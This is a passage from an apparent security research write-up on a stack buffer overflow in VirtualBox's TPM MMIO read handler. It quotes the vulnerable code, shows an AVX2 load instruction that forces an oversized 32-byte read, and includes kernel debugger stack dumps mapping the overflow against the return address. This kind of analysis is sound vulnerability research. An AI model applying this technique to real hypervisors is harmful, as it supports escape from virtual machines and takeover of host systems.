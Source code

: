 ```cpp
                && uReg < TPM_FIFO_LOCALITY_REG_XDATA_FIFO + sizeof(uint32_t)))
        && bLoc == pThis->bLoc
        && pThis->enmState == DEVTPMSTATE_CMD_COMPLETION)
    {
        if (pThis->offCmdResp <= pThis->cbCmdResp - cb)
        {
            memcpy(pu64, &pThis->abCmdResp[pThis->offCmdResp], cb);
            pThis->offCmdResp += (uint32_t)cb;
        }
        else
            memset(pu64, 0xff, cb);
        return VINF_SUCCESS;
    }
}
```

You can see that there is a branch of code that does a `memcpy` into the `u64`, which is a stack variable of `tpmMmioRead` function. To be able to reach this branch, `uReg`, `bLoc` and `pThis->enmState` must have appropriate values. But don't worry because we can control all of them, we can also control `pThis->offCmdResp` and `pThis->abCmdResp`. There is no check to make sure `cb <= sizeof(uint64_t)`, so maybe there is a stack buffer overflow here? Now I have to find a way to make `cb` larger than `sizeof(uint64_t)` (8). I google and found that some AVX-512 instructions can read up to 512 bits (64 bytes) memory. Since my CPU doesn't support AVX-512, I try AVX2 instead:

```cpp
__m256 z = _mm256_load_ps((const float*)off);
```

Indeed, it works! `cb` is now `0x20` and I can overwrite 0x18 bytes after `u64` variable. But the is a problem: `u64` is behind the return address of `VBoxDDR0!tpmMmioRead`. Let's look at the stack when RIP is at the very first instruction of `VBoxDDR0!tpmMmioRead`:

```
2: kd> dq @rsp
ffffbb80`814920a8  fffff804`d2432993 ffff8901`0ecc0000
ffffbb80`814920b8  000fffff`fffff000 ffff8901`0edc6760
ffffbb80`814920c8  fffff804`d243418b 00000000`00000020
ffffbb80`814920d8  fffff804`d2458b1d ffffe289`26bf7000
ffffbb80`814920e8  00000000`00000020 ffff8901`0ede4000
ffffbb80`814920f8  00000000`00000080 ffff8901`0ecc0000
ffffbb80`81492108  fffff804`d243313f ffffe289`26b87188
ffffbb80`81492118  fffff804`d2451c8b 00000000`fed40080
```

Remember that the return address is at `0xffffbb80814920a8`. Now let's run until RIP is at `call VBoxDDR0!tpmMmioFifoRead`:

```
2: kd> dq @rsp
ffffbb80`81492060  ffff8901`0ecc0000 00000000`00000000
ffffbb80`81492070  00000000`00000060 fffff804`d253ba1b
ffffbb80`81492080  00000000`00000080 ffffbb80`814920b0 <-- pu64
ffffbb80`81492090  00000000`00000020 00000000`00000018
ffffbb80`814920a0  ffff8901`0ede4140 fffff804`d2432993 <-- R.A
ffffbb80`814920b0  ffff8901`0ecc0000 ffffe289`26b87188
ffffbb80`814920c0  00000000`00000080 fffff804`d243418b
ffffbb80`814920d0  00000000`00000020 fffff804`d2458b1d
```
